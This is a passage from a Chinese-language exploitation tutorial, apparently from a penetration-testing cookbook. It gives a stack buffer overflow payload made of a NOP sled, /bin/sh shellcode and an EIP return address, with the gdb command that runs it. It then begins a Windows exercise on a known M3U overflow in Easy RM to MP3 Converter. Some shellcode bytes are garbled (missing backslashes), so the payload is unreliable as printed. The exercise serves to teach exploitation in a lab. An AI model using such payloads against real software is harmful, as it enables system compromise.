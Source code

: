 1.  我们有 100 个字节，我们的 shellcode 是 24 个字节。我们可以在我们的利用中使用这个。

1.  现在我们简单地用`90` no op 汇编指令（`0x90`）替换`A`，并用 shellcode 替换其余的 24 个字节，然后用我们希望 EIP 指向的内存地址替换`B`，用 no op 代码替换`C`。这应该看起来像这样：

```
 "\x90"*76+"\x6a\x0bx58x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\
        x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"
        +"\xa0\xff\xf1\xbf"+"\x90"*20
```

1.  让我们重新运行程序并将其作为输入：

```
 r $(python -c print' "\x90"*76+"\x6a\x0bx58x31\xf6\x56\x68\
        x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\
        xcd\x80"+"\xa0\xff\xf1\xbf"+"\x90"*20')
```

1.  我们输入`c`以从断点继续，一旦执行完成，我们的 shell 就会被执行。

# 利用真实软件的缓冲区溢出

您之前已经学习了利用的基础知识。现在让我们尝试在一些早已被利用并且有公开利用的软件上进行尝试。在这个示例中，您将了解旧软件的公开利用以及为其创建自己版本的利用。

在开始之前，我们需要一个旧版本的 Windows 操作系统（最好是 Windows XP）和一个 Windows 调试器。我使用了 Immunity Debugger 和一个已知的缓冲区溢出漏洞的旧软件。我们将使用*Easy RM to MP3 Converter*。这个版本在播放大型 M3U 文件时存在缓冲区溢出漏洞。

# 准备工作

Immunity Debugger 的免费版本可以在[`www.immunityinc.com/products/debugger/`](https://www.immunityinc.com/products/debugger/)上下载。 

# 如何做...

按照给定的步骤来学习：

1.  接下来，我们下载并在机器上安装我们的 MP3 转换器。

1.  这个转换器在播放 M3U 文件时存在漏洞。当使用它打开一个大文件进行转换时，软件会崩溃。

1.  让我们创建一个文件，里面写入大约 30,000 个`A`，并将其保存为`<filename>.m3u`：

![](img/2237b2f9-0aa0-4912-80e7-01c65bcc2b91.png)